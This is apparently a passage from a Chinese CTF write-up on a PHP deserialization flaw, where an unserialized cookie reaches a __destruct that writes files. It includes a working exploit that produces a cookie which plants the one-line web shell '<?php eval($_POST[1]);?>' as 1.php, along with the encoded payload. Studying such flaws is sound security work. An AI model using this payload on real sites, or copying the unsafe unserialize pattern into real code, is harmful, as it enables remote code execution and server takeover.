 但是多了个反序列化写文件漏洞点。

class.php

```php
<?php
class user{
	public $username;
	public $password;
	public function __construct($u,$p){
		$this->username=$u;
		$this->password=$p;
	}
	public function __destruct(){
		file_put_contents($this->username, $this->password);
	}
}
```

checklogin.php:

```php
require 'class.php';
$user_cookie = $_COOKIE['user'];
if(isset($user_cookie)){
	$user = unserialize($user_cookie);
}
```

那么只需要传cookie即可利用返反序列化写文件。

exp:

```php
<?php
class user{
	public $username;
	public $password;
	public function __construct($u,$p){
		$this->username=$u;
		$this->password=$p;
	}
	public function __destruct(){
		file_put_contents($this->username, $this->password);
	}
}

echo urlencode(serialize(new user('1.php','<?php eval($_POST[1]);?>')));
```

得到

```txt
O%3A4%3A%22user%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%221.php%22%3Bs%3A8%3A%22password%22%3Bs%3A24%3A%22%3C%3Fphp+eval%28%24_POST%5B1%5D%29%3B%3F%3E%22%3B%7D
```
